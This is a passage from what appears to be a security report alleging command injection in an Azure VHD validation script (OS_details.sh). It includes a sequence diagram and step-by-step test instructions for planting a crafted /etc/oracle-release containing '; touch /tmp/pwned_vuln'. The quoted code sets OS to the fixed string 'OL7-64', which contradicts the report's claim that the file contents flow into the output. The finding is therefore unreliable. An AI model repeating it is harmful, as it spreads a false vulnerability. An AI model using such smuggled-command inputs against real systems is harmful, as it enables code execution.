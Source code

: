   ```sh

  # ... (rest of the script) ...
  ```
  - File: `/code/validations/image_validator/ASR/scripts/OS_details.sh` (Example of OS detection logic)
  ```sh
  #!/bin/sh

  if [ -f /etc/oracle-release ]; then # Attacker can modify /etc/oracle-release
      if grep -q 'Oracle Linux Server release 6.*' /etc/oracle-release; then
          VERSION=`sed "s/[^0-9]*//g" /etc/oracle-release`
          if [ `uname -m` = "x86_64" -a $VERSION -ge 64 ]; then
              OS="OL6-64"
          fi
      elif grep -q 'Oracle Linux Server release 7.*' /etc/oracle-release; then # Attacker can inject command here
          if [ `uname -m` = "x86_64" ]; then
              OS="OL7-64" # If /etc/oracle-release contains "Oracle Linux Server release 7; touch /tmp/pwned", OS will be "OL7-64; touch /tmp/pwned"
          fi
      # ... (rest of OS detection logic) ...
  fi

  if [ $# -gt 0 ]
  then
      echo $OS # Output is used in LoadDriver.sh
  fi
  ```
  **Visualization:**

  ```mermaid
  sequenceDiagram
      participant Malicious VHD
      participant Validation VM
      participant LoadDriver.sh
      participant OS_details.sh
      participant wget

      Malicious VHD->>Validation VM: VHD Image with malicious /etc/oracle-release
      Validation VM->>LoadDriver.sh: Execute LoadDriver.sh
      LoadDriver.sh->>OS_details.sh: Execute OS_details.sh 1
      OS_details.sh->>Malicious VHD: Read /etc/oracle-release (malicious content)
      OS_details.sh->>LoadDriver.sh: Return "OL7-64; touch /tmp/pwned" (Command Injection)
      LoadDriver.sh->>wget: Execute wget ... `tr ... <<< 'OL7-64; touch /tmp/pwned'` ...
      wget-->>Validation VM: Execute injected command: touch /tmp/pwned
      Validation VM-->>Malicious VHD: Command executed successfully
  ```

- Security Test Case:
  1. Create a new directory for the malicious VHD.
  2. Create a dummy `/etc/oracle-release` file with the following content: `Oracle Linux Server release 7; touch /tmp/pwned_vuln`.
  3. Create a dummy VHD image (the actual VHD content doesn't matter much for this test, as we are focusing on configuration files). You can use `qemu-img create -f vpc malicious.vhd 1G`.
  4. Mount the VHD image: `sudo kpartx -a -v malicious.vhd`.
  5. Mount the first partition of the VHD: `sudo mount /dev/mapper/loop0p1 /mnt`. (Note: Adjust `/dev/mapper/loop0p1` based on your system).
  6. Copy the malicious `/etc/oracle-release` file to the mounted VHD: `sudo cp /path/to/created/oracle-release /mnt/etc/oracle-release`.
  7. Unmount the VHD partition: `sudo umount /mnt`.
  8. Remove the device mapping: `sudo kpartx -d malicious.vhd`.
  9. Upload the `malicious.vhd` to an Azure Storage Account and create a SAS URI.
  10. Update the `azure-pipelines.yml` file with the SAS URI of the `malicious.vhd` and set `enabled: true` for the relevant steps.
  11. Run the Azure pipeline.
